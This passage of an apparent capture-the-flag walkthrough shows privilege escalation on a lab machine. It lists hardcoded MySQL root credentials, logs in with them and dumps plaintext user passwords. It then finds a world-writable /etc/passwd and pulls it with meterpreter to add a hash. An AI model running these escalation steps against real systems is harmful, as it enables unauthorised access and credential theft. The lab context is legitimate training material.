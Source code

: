 Looking at the groups taviso is able to execute sudo so this might be a good start:

```
$ grep taviso /etc/group
adm:x:4:syslog,taviso
cdrom:x:24:taviso
sudo:x:27:taviso
dip:x:30:taviso
plugdev:x:46:taviso
lxd:x:110:taviso
taviso:x:1000:
lpadmin:x:117:taviso
sambashare:x:118:taviso
```

Looking for a way to become the user taviso I noticed the webapp is using the mysql root user to connect to the database.

```php
$db_host = "127.0.0.1";
$db_name = "bank_database";
$db_user = "root";
$db_password = "NuCiGoGo321";
```

Trying to login:

```
mysql -u root -pNuCiGoGo321
```

Sadly there was no other content in the database and I did not want to try the latest mysql server race condition privescs because I thought that's lame and there has to be another way. But hey, at least we now have the valid logins for all users:

```
mysql> select * from klienti;
select * from klienti;
+----+-------------+---------+---------+----------+------------+
| ID | emer        | mbiemer | bilanci | username | password   |
+----+-------------+---------+---------+----------+------------+
|  1 | Charles D.  | Hobson  |   25000 | hobson   | Charles123 |
|  2 | Jeffery     | Fischer |  120000 | jeff     | jeff321    |
+----+-------------+---------+---------+----------+------------+
2 rows in set (0.00 sec)
```

Searching the system for world writeable files gave me a little **WTF** moment:
**/etc/passwd is writeable by every user**

```
$ find / -type f -perm -o+w -exec ls -l {} \; 2>/dev/null | grep -v /proc/ | grep -v /sys/
-rw-r--rw- 1 root root 1623 Oct 22 17:21 /etc/passwd
-rwxrwxrwx 1 root root 0 Oct 22 16:56 /var/crash/.lock
```

So I downloaded the `/etc/passwd` with meterpreter and generated a new password hash with python:
